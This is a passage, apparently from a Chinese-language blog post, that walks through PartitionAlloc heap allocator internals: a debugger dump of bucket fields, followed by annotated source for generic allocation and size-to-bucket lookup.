        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 22
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [12] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 24
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [13] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 26
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [14] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 28
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [15] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 30
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [16] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 32
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [17] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 36
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [18] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 40
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [19] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 44
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [20] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 48
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [21] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 52
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [22] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 56
        numSystemPagesPerSlotSpan = 8
        numFullPages = 0
      }
      [23] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 60
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [24] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 64
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [25] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 72
        numSystemPagesPerSlotSpan = 8
        numFullPages = 0
      }
      [26] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 80
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [27] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 88
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [28] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 96
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [29] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 104
        numSystemPagesPerSlotSpan = 8
        numFullPages = 0
      }
      [30] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 112
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [31] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 120
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [32] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 128
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [33] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 144
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [34] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 160
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [35] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 176
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [36] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 192
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [37] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 208
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [38] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 224
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [39] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 240
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [40] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 256
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [41] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 288
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [42] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 320
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [43] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 352
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [44] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 384
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [45] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 416
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [46] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 448
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [47] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 480
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [48] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 512
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [49] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 576
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [50] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 640
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [51] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 704
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [52] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 768
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [53] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 832
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [54] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 896
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [55] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 960
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [56] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1024
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [57] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1152
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [58] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1280
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [59] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1408
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [60] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1536
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [61] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1664
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [62] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1792
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [63] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1920
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [64] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 2048
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [65] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 2304
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [66] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 2560
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [67] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 2816
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [68] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 3072
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [69] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 3328
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [70] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 3584
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [71] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 3840
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [72] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 4096
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [73] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 4608
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [74] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 5120
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [75] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 5632
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [76] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 6144
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [77] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 6656
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [78] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 7168
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [79] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 7680
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [80] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 8192
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [81] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 9216
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [82] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 10240
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [83] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 11264
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [84] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 12288
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [85] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 13312
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [86] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 14336
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [87] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 15360
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [88] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 16384
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [89] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 18432
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [90] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 20480
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [91] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 22528
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [92] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 24576
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [93] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 26624
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [94] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 28672
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [95] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 30720
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [96] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 32768
        numSystemPagesPerSlotSpan = 8
        numFullPages = 0
      }
      [97] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 36864
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [98] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 40960
        numSystemPagesPerSlotSpan = 10
        numFullPages = 0
      }
      [99] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 45056
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [100] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 49152
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [101] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 53248
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [102] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 57344
        numSystemPagesPerSlotSpan = 14
        numFullPages = 0
      }
      [103] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 61440
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [104] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 65536
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [105] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 73728
        numSystemPagesPerSlotSpan = 18
        numFullPages = 0
      }
      [106] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 81920
        numSystemPagesPerSlotSpan = 20
        numFullPages = 0
      }
      [107] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 90112
        numSystemPagesPerSlotSpan = 22
        numFullPages = 0
      }
      [108] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 98304
        numSystemPagesPerSlotSpan = 24
        numFullPages = 0
      }
      [109] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 106496
        numSystemPagesPerSlotSpan = 26
        numFullPages = 0
      }
      [110] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 114688
        numSystemPagesPerSlotSpan = 28
        numFullPages = 0
      }
      [111] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 122880
        numSystemPagesPerSlotSpan = 30
        numFullPages = 0
      }
      [112] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 131072
        numSystemPagesPerSlotSpan = 32
        numFullPages = 0
      }
      [113] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 147456
        numSystemPagesPerSlotSpan = 36
        numFullPages = 0
      }
      [114] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 163840
        numSystemPagesPerSlotSpan = 40
        numFullPages = 0
      }
      [115] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 180224
        numSystemPagesPerSlotSpan = 44
        numFullPages = 0
      }
      [116] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 196608
        numSystemPagesPerSlotSpan = 48
        numFullPages = 0
      }
      [117] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 212992
        numSystemPagesPerSlotSpan = 52
        numFullPages = 0
      }
      [118] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 229376
        numSystemPagesPerSlotSpan = 56
        numFullPages = 0
      }
      [119] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 245760
        numSystemPagesPerSlotSpan = 60
        numFullPages = 0
      }
      [120] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 262144
        numSystemPagesPerSlotSpan = 64
        numFullPages = 0
      }
      [121] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 294912
        numSystemPagesPerSlotSpan = 72
        numFullPages = 0
      }
      [122] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 327680
        numSystemPagesPerSlotSpan = 80
        numFullPages = 0
      }
      [123] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 360448
        numSystemPagesPerSlotSpan = 88
        numFullPages = 0
      }
      [124] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 393216
        numSystemPagesPerSlotSpan = 96
        numFullPages = 0
      }
      [125] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 425984
        numSystemPagesPerSlotSpan = 104
        numFullPages = 0
      }
      [126] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 458752
        numSystemPagesPerSlotSpan = 112
        numFullPages = 0
      }
      [127] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 491520
        numSystemPagesPerSlotSpan = 120
        numFullPages = 0
      }
      [128] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 524288
        numSystemPagesPerSlotSpan = 128
        numFullPages = 0
      }
      [129] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 589824
        numSystemPagesPerSlotSpan = 144
        numFullPages = 0
      }
      [130] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 655360
        numSystemPagesPerSlotSpan = 160
        numFullPages = 0
      }
      [131] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 720896
        numSystemPagesPerSlotSpan = 176
        numFullPages = 0
      }
      [132] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 786432
        numSystemPagesPerSlotSpan = 192
        numFullPages = 0
      }
      [133] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 851968
        numSystemPagesPerSlotSpan = 208
        numFullPages = 0
      }
      [134] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 917504
        numSystemPagesPerSlotSpan = 224
        numFullPages = 0
      }
      [135] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 983040
        numSystemPagesPerSlotSpan = 240
        numFullPages = 0
      }
    }
  }
}
```

</details>

可以看到还有一些内容没有初始化，这些会放在alloc时的slow path时初始化。

### partitionalloc

#### 首先

```
ALWAYS_INLINE void* partitionAllocGeneric(PartitionRootGeneric* root, size_t size)
{
    return partitionAllocGenericFlags(root, 0, size);
}
```
分配主要是通过partitionAllocGenericFlags实现的。

```
ALWAYS_INLINE void* partitionAllocGenericFlags(PartitionRootGeneric* root, int flags, size_t size)
{
#if defined(MEMORY_TOOL_REPLACES_ALLOCATOR)
    void* result = malloc(size);
    RELEASE_ASSERT(result);
    return result;
#else
    ASSERT(root->initialized);
    size = partitionCookieSizeAdjustAdd(size);
    PartitionBucket* bucket = partitionGenericSizeToBucket(root, size);
    spinLockLock(&root->lock);
    void* ret = partitionBucketAlloc(root, flags, size, bucket);
    spinLockUnlock(&root->lock);
    return ret;
#endif
}
```
开头就是我们之前介绍过的增加cookie，有cookie的话这会使要分配的大小增加32。

#### 之后则要根据大小去寻找对应的bucket

```
ALWAYS_INLINE PartitionBucket* partitionGenericSizeToBucket(PartitionRootGeneric* root, size_t size)
{
    size_t order = kBitsPerSizet - countLeadingZerosSizet(size);
    // The order index is simply the next few bits after the most significant bit.
    size_t orderIndex = (size >> root->orderIndexShifts[order]) & (kGenericNumBucketsPerOrder - 1);
    // And if the remaining bits are non-zero we must bump the bucket up.
    size_t subOrderIndex = size & root->orderSubIndexMasks[order];
    PartitionBucket* bucket = root->bucketLookups[(order << kGenericNumBucketsPerOrderBits) + orderIndex + !!subOrderIndex];
    ASSERT(!bucket->slotSize || bucket->slotSize >= size);
    ASSERT(!(bucket->slotSize % kGenericSmallestBucket));
    return bucket;
}
```

countLeadingZerosSizet(size)用来计算需要填充的0的数目：32 = 0b100000，所以这里的返回值为58。这里的order值的就是最后一个非0数所在的位数（例如0b100000为6，0b10000为5。。。）

这里借用注释中的例子：
```
    // Example: malloc(41) == 101001 binary.
    // Order is 6 (1 << 6-1)==32 is highest bit set.
    // orderIndex is the next three MSB == 010 == 2.
    // subOrderIndexMask is a mask for the remaining bits == 11 (masking to 01 for the subOrderIndex).
```
最后通过root->bucketLookups[(order << kGenericNumBucketsPerOrderBits) + orderIndex + !!subOrderIndex];来找到对应的bucket。

#### 接下来就是alloc的重头戏了partitionBucketAlloc：

```
ALWAYS_INLINE void* partitionBucketAlloc(PartitionRootBase* root, int flags, size_t size, PartitionBucket* bucket)
{
    PartitionPage* page = bucket->activePagesHead;
    // Check that this page is neither full nor freed.
    ASSERT(page->numAllocatedSlots >= 0);
    void* ret = page->freelistHead;
    if (LIKELY(ret != 0)) {
        // If these asserts fire, you probably corrupted memory.
        ASSERT(partitionPointerIsValid(ret));
        // All large allocations must go through the slow path to correctly
        // update the size metadata.
        ASSERT(partitionPageGetRawSize(page) == 0);
